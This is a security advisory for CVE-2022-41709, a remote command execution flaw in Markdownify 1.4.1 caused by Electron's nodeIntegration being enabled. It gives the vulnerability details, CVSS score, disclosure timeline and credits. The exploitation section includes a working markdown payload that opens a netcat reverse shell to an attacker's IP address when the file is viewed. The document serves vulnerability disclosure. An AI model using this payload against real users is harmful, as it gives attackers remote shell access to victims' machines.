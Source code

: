 ```yaml
---
slug: advisories/adams/
title: Markdownify 1.4.1 - RCE
authors: Carlos Bello
writer: cbello
codename: adams
product: Markdownify 1.4.1 - RCE
date: 2022-10-14 03:30 COT
cveid: CVE-2022-41709
severity: 8.6
description: Markdownify 1.4.1    -    Remote Command Execution
keywords: Fluid Attacks, Security, Vulnerabilities, Markdownify, RCE
banner: advisories-bg
advise: yes
template: advisory
---
```


## Summary

|                       |                                                                    |
| --------------------- | -------------------------------------------------------------------|
| **Name**              | Markdownify 1.4.1 - RCE                                            |
| **Code name**         | [Adams](https://en.wikipedia.org/wiki/Bryan_Adams)                 |
| **Product**           | Markdownify                                                        |
| **Affected versions** | Version 1.4.1                                                      |
| **State**             | Public                                                             |
| **Release date**      | 2022-10-14                                                         |

## Vulnerability

|                       |                                                                                                                             |
| --------------------- | ----------------------------------------------------------------------------------------------------------------------------|
| **Kind**              | Remote command execution                                                                                                    |
| **Rule**              | [004. Remote command execution](https://docs.fluidattacks.com/criteria/vulnerabilities/004)                                 |
| **Remote**            | Yes                                                                                                                         |
| **CVSSv3 Vector**     | CVSS:3.1/AV:L/AC:L/PR:N/UI:R/S:C/C:H/I:H/A:H                                                                                |
| **CVSSv3 Base Score** | 8.6                                                                                                                         |
| **Exploit available** | Yes                                                                                                                         |
| **CVE ID(s)**         | [CVE-2022-41709](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-41709)                                             |

## Description

Markdownify version 1.4.1 allows an external attacker to execute
arbitrary code remotely on any client attempting to view a malicious
markdown file through Markdownify. This is possible because the
application has the "nodeIntegration" option enabled.

## Vulnerability

This vulnerability occurs because the application has the
"nodeIntegration" option enabled.  Due to the above, an attacker can
embed malicious JS code in a markdown file and send it to the victim
for viewing to achieve an RCE.

## Exploitation

To exploit this vulnerability, the following file must be sent to a
user to be opened with Markdownify.

### exploit.md

```md
<img src=1 onerror="require('child_process').exec('nc 192.168.20.38 4444 -e /bin/bash');"/>
```

## Evidence of exploitation

![rce-markdownify.gif](https://user-images.githubusercontent.com/51862990/195938731-203e6071-b5c1-4258-95ee-0242880f9eb1.gif)

## Our security policy

We have reserved the CVE-2022-41709 to refer to this issue from now on.

* https://fluidattacks.com/advisories/policy/

## System Information

* Version: Markdownify 1.4.1

* Operating System: GNU/Linux

## Mitigation

There is currently no patch available for this vulnerability.

## Credits

The vulnerability was discovered by [Carlos
Bello](https://www.linkedin.com/in/carlos-andres-bello) from Fluid Attacks'
Offensive Team.

## References

**Vendor page** <https://github.com/amitmerchant1990/electron-markdownify>

## Timeline

<time-lapse
  discovered="2022-09-23"
  contacted="2022-09-23"
  replied="2022-09-23"
  confirmed="2022-09-23"
  patched=""
  disclosure="2022-10-14">
</time-lapse>
